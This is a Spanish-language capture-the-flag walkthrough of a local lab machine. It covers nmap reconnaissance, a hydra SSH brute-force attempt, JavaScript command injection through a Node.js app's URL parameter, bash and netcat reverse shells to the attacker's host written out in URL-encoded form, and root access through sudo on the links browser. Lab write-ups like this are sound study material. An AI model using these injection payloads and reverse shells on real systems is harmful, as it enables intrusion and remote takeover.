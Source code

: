 ```yaml
---
tags:
  - CTF
  - CyberSec
---
```

## Reconocimiento
Comenzamos con el respectivo reconocimiento usando `nmap`.
``` bash
nmap -p- -sS -sCV --min-rate 5000 -n -Pn 192.168.0.104 -oG scan
```
![](_anexos_/Screenshot%20from%202023-12-13%2005-05-06.png)
- La versión de ssh en la 9.2p1, bastante actualizada, no hay mucho que hacer por ahi
- Tenemos el puerto 80 disponible, pero en realidad solo hay una pagina manual de apache
- En el puerto 5000 podemos ver lo que parece una app de nodejs, verificamos en el navegador

![](_anexos_/Screenshot%20from%202023-12-13%2005-08-22.png)
Si ingresamos cualquier texto en el campo de `name` nos devuelve una url con el siguiente formato (e.j. con el usuario pepe)
``` html
http://192.168.0.104:5000/?name=pepe&token=55569675
```
- Si modificamos el token en la url con más numeros, la pagina aún carga con 'normalidad'
- Si modificamos agregando un string nos salta un error relacionado con javascript

![](_anexos_/Screenshot%20from%202023-12-13%2005-20-13.png)

Acá podemos deducir:
- Un usuario `aleister`
- El directorio donde corre esta app se encuentra en `/home/aleister/website`

### SSH Force Brute
En este punto al tener un usuario podría resultar interesante ejecutar `hydra` para un ataque de fuerza bruta a través de ssh
``` bash
hydra -l aleister -P /usr/share/dict/rockyou.txt ssh://192.168.0.104 
## SPOILER: no funciona
```
### Javascript Command Injection
En este punto, podemos probar si la url es vulnerable a algun tipo de _command injection_ en el payload.
- El campo user es equivalente al texto que le agregamos en la cajita de nombre y en realidad no ejecuta ningun comando por detras. 
- El campo token ha respondido a la inyección de nuestro codigo javascript que ejecuta en la shell un timer de 5 segundos.
	
```javascript
require('child_process').execSync('sleep 5');
```

Para evitar problemas con los espaciados y saltos de linea en la url le mandamos la instrucción en formato `url-encoded`
``` html
http://192.168.0.104:5000/name=pepe&token=require%28%27child_process%27%29.execSync%28%27sleep%205%27%29%3B
```
Comprobado esto, procedemos a mandar una reverse shell para que nos pueda otorgar una consola desde la que podemos operar. 
- Primeramente nos ponemos en escucha con `ncat` por el puerto 4444.
	``` bash
	ncat -lvp 4444
	```
- Ejecutamos el ya conocido reverse shell por el protocolo TCP a través de bash
	``` bash
	bash -i >& /dev/tcp/192.168.0.107/4444 0>&1 # IP maquina atacante
	```
	La url quedaria de esta forma (con el url-encoded)
	``` html
	http://192.168.0.104:5000/?name=pepe&token=require%28%27child_process%27%29.execSync%28%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.0.107%2F4444%200%26%3E1%27%29%3B
	```

##### LECTURA OPCIONAL: POSIX y los problemas con la sintaxis stderr/stdout estandar

Ver: [POSIX y los problemas con stdout - stdeer](../../Pentest%20Concepts/POSIX%20y%20los%20problemas%20con%20stdout%20-%20stdeer.md)

#### Reverse shell con netcat
Entonces como tenemos ese problema con sh, podemos buscar otras formas de hacer la `reverse shell`, por ejemplo con `ncat`.
``` bash
nc -e /bin/sh 192.168.0.107 4444
```
Con la url _url-encodeada_, quedaria:
``` html
http://192.168.0.104:5000/?name=pepe&token=require%28%27child_process%27%29.execSync%28%27nc%20-e%20%2Fbin%2Fsh%20192.168.0.107%204444%27%29%3B
```
Ejecutamos y... Bingo!

## Escalada de privilegios (Privesec)
### Tratamiento de la tty
Lo primero que vamos a resolver es la cuestión de la tty. Ejecutamos los siguientes comandos en el ncat que estaba en escucha por el 4444.

Ver: [Linux Full TTY (Interective shell)](../../Pentest%20Concepts/Linux%20Full%20TTY%20(Interective%20shell).md)
### Reconocimiento de la maquina victima
Si ejecutamos `sudo -l` podemos ver que tenemos la app ubicada en `/usr/bin/links` que podemos ejecutar como `root` sin necesidad de presentar una contraseña. Probamos, en realidad no parece salir nada, pero si presionamos `Esc` podemos ver un panel de opciones.

![](_anexos_/Screenshot%20from%202023-12-14%2000-54-27.png)
### Ascenso a root
Si buscamos las opciones entre los paneles, podemos ver que en el apartado _File_ existe una opción llamada _OS shell_.

![](_anexos_/Screenshot%20from%202023-12-14%2000-57-01.png)
Si ejecutamos esa opción como tal, nos devolvera una shell como el usuario root. Eso es todo.
##### OPCIONAL: Posibilidad de ascender a root a través de una reverse shell desde una pagina en el navegador (?)
La idea de este punto es poder ejecutar alguna pequeña pagina en la cual le puedas inyectar codigo que se ejecute como `client-side` (nosotros desde el navegador somos el cliente) que probablemente se termine ejecutando como root. Solo es una idea igual y no se si es posible, si bien investigando encontre que hay muchos problemas a la hora de ejecutar comandos en el lado del cliente (lo cual tiene sentido por razones de seguridad).

